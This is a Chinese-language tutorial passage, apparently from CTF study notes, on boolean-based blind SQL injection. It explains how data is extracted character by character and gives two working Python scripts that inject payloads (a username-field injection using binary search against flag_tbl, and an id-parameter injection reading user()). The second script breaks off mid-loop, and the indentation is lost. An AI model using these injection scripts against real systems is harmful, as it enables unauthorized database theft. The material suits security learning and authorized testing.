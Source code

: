 # 布尔盲注

布尔盲注，故名思意，与bool代数的运算有关，也就是和true和false有关


依赖于服务器给我们的响应，生活中这个漏洞相对来说还是比较多。


具体来说就是我们问服务器XXX第一个字符是不是a他告诉你不是，然后你问它第一个字符是不是b..................................一直推下去，相当于一个一个字符爆破出你想查询的信息。


主要靠的还是扎实的py脚本功夫


bool盲注依赖于脚本，这里给出几个bool盲注的脚本


这里都是二分法，遍历也行，但大家都学过时间复杂度，对吧。


```plain
import requests
import time
url = ""
files = {"file": "123456789"}
'''字段值'''
flag=''
for i in range(1,100):
low = 32
high = 128
mid = (low+high)//2
while (low < high):
time.sleep(0.06)
payload_flag = {
'username': "test\" or (ascii(substr((select secret from flag_tbl),{0},1))>{1}) #".format(i,mid),'password': 'test'}
r = requests.post(url=url,params=payload_flag,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
cookies={"PHPSESSID": "test1"})
print(payload_flag)
if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
low = mid +1
else:
high = mid
mid = (low + high) // 2
if(mid==32 or mid == 132):
break
flag +=chr(mid)
print(flag)
print(flag)
Plain Text
```



```plain
import requests
urltest="http://127.0.0.1/index.php?id=1' and ascii(substr((select user()),1,1))=114%23" #验证页面，通常为正确页面
URL=requests.get(urltest)
for j in range(1,10):
for i in range(33,125):
i=str(i)
j=str(j)
url="http://127.0.0.1/index.php?id=1' and ascii(substr((select user()),"+j+",1))="+i+"%23" #注入用于比对的URL
#print url
url=requests.get(url)
if url.text==URL.text:
```